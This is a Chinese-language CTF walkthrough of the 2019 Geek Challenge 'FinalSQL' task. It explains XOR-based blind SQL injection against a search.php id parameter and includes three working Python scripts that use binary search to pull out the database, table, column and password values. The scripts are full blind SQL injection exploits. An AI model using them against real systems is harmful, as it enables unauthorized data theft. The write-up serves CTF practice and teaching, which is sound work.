





# 极客大挑战2019-FinalSQL

一打开是一个登录界面



上面有几个按钮1到5全部按一遍，发现都没什么信息，除了最后一个



这里提示我们进入第六个按钮，但是没有，但是发现url里的传参id=5

改成

```
http://a394f536-8135-4a4b-9720-535d541c8f4a.node5.buuoj.cn:81/search.php?id=6
```

还是没有


在首页的登录框试了半天发现没用，看wp后说要在这个界面sql注入。而且是异或盲注

## 异或盲注原理

```php
1^1返回0
1^0返回1
```





通过回显不同来进行盲注

python脚本

```
#数据库名
import requests

url = "http://058f339f-0127-43e3-9be8-9873340d99d4.node4.buuoj.cn:81/search.php?id="
flag = ""
for i in range(1, 5):
    for j in range(33, 128):
        payload = "1^(ascii(substr((select(database())),{0},1))={1})".format(i,j)
        html = requests.get(url+payload)
        if "ERROR" in html.text:
            flag += chr(j)
            print (chr(j))
            break
print(flag)


```

---

```
#表名
import requests

url = "http://058f339f-0127-43e3-9be8-9873340d99d4.node4.buuoj.cn:81/search.php?id="
flag = ""
for i in range(1, 1000):
        low=32
        high=128
        mid=(low+high)//2
        while low < high:
            payload = "1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='geek')),{0},1))<{1})".format(i,mid)
           
            #payload = "1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),{0},1))<{1})".format(i, mid)
            
            #payload = "1^(ascii(substr((select(group_concat(password))from(F1naI1y)),{0},1))<{1})".format(i, mid)
            
            html = requests.get(url+payload)
            if "ERROR" in html.text:
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        flag += chr(mid-1)
        print (chr(mid-1))
print(flag)

```

---

大佬完整脚本

```
# -*- coding: utf-8 -*-
# @Author: jiaoben
# @Date  :  2020/05/03

import re
import requests
import string

url = "http://058f339f-0127-43e3-9be8-9873340d99d4.node4.buuoj.cn:81/search.php"
flag = ''


def payload(i, j):
    # 数据库名字
    #sql = "1^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)^1"%(i,j)
    # 表名
    # sql = "1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),%d,1))>%d)^1"%(i,j)
    # 列名
    # sql = "1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)^1"%(i,j)
    # 查询flag
    sql = "1^(ord(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" % (i, j)
    data = {"id": sql}
    r = requests.get(url, params=data)
    # print (r.url)
    if "Click" in r.text:
        res = 1
    else:
        res = 0
    return res


def exp():
    global flag
    for i in range(1, 10000):
        print(i, ':')
        low = 31
        high = 127
        while low <= high:
            mid = (low + high) // 2
            res = payload(i, mid)
            if res:
                low = mid + 1
            else:
                high = mid - 1
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
            break
        # print (f)
        flag += chr(f)
        print(flag)


exp()
print('flag=', flag)


```

